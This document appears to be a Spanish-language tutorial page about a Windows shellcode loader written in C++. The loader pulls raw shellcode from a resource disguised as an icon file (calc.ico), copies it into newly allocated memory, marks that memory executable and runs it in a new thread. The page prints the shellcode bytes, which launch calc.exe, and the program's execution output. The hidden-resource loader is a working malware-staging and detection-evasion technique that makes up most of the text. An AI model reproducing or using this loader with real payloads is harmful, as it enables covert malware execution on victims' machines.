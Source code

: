```c++
	printf("\n Extract data from external resource %-20s ", resHandle);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .text section %-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("\n [VirtualAlloc] of new moemory region %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	getchar();
	printf(" [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, payload, payload_len);
	printf(" [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf(" [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
	

```
Cabecera recurso externo resource.h:
```c++
#define FAVICON_ICO 100

```
Código recurso externo resource.rc que define el recurso externo al que se quiere acceder en tiempo de ejecución:
```c++
#include "resources.h"

FAVICON_ICO RCDATA calc.ico

```
calc.ico, recurso externo que contiene el shellcode ne format raw:
```c++
üHƒäðèÀ   AQAPRQVH1ÒeH‹R`H‹RH‹R H‹rPH·JJM1ÉH1À¬<a|, AÁÉ
AÁâíRAQH‹R ‹B<HÐ‹€ˆ   H…ÀtgHÐP‹HD‹@ IÐãVHÿÉA‹4ˆHÖM1ÉH1À¬AÁÉ
AÁ8àuñLL$E9ÑuØXD‹@$IÐfA‹HD‹@IÐA‹ˆHÐAXAX^YZAXAYAZHƒì ARÿàXAYZH‹éWÿÿÿ]Hº       H  Aº1‹o‡ÿÕ»ðµ¢VAº¦•½ÿÕHƒÄ(<|
€ûàu»Groj YA‰ÚÿÕcalc.exe 
```
Salida de la ejecución:
```
 Extract data from external resource FAVICON_ICO
 Extract data from external resource ` 
 Extract data from external resource ⁿHâΣ≡Φ└
Sotred payload in .text section payload addr         : 0x00007FF69DF12060

 [VirtualAlloc] of new moemory region exec_mem addr        : 0x00000195C51A0000

 [RtlMoveMemory] copy data
 [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ

 [CreateThread] Exec stored payload
```
